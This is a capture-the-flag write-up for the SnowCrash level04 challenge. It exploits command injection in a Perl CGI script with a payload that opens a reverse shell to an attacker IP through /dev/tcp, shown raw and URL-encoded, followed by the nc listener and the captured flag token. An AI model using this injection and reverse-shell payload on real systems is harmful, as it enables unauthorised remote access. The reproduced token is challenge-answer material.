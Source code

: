- In `/home/user/level04` we discover a Perl script.
```
level04@SnowCrash:~$ pwd
/home/user/level04
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```

- Examining the `level04.pl` Perl script it is visible that there is a HTTP service running on localhost:4747 which listens for parameter `x` which is extracted and passed through to an `echo` system call

```
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

- We test this with a curl command
```
level04@SnowCrash:~$ curl http://localhost:4747/?x=Hello
Hello
```

- Due to insufficient input sanitation there is opportunity to carry out Remote Code Execution. We intercept the request in BurpSuite and attempt to chain a reverse shell command to connect back to our attack machine using payload `/bin/sh -i >& /dev/tcp/<attackIp>/<attackPort> 0>&1

- Full payload without URL encoding `hello && /bin/bash -c '/bin/sh -i >& /dev/tcp/10.13.200.129/4444 0>&1`

- Payload with URL encoding `hello+%26%26+/bin/bash+-c+'/bin/sh+-i+>%26+/dev/tcp/10.13.200.129/4444+0>%261' `

- Prepare the BurpSuite request with the encoded payload in the GET header

![[Pasted image 20250914000214.png]]


- Start a listener on port 4444 on the attack machine and send the request in BurpSuite to successfully establish a reverse shell as the user `flag04`

```
┌──(kali㉿kali)-[~/Desktop/snowcrash]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.13.200.129] from (UNKNOWN) [10.13.200.131] 42311
/bin/sh: 0: can't access tty; job control turned off
$ whoami
flag04
```

- Retrieve the flag with `getflag` command
```
$ whoami
flag04
$ getflag
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

```

- Authenticate as user `level05` using the acquired token
```
level04@SnowCrash:~$ su level05
Password: 
level05@SnowCrash:~$ 
```




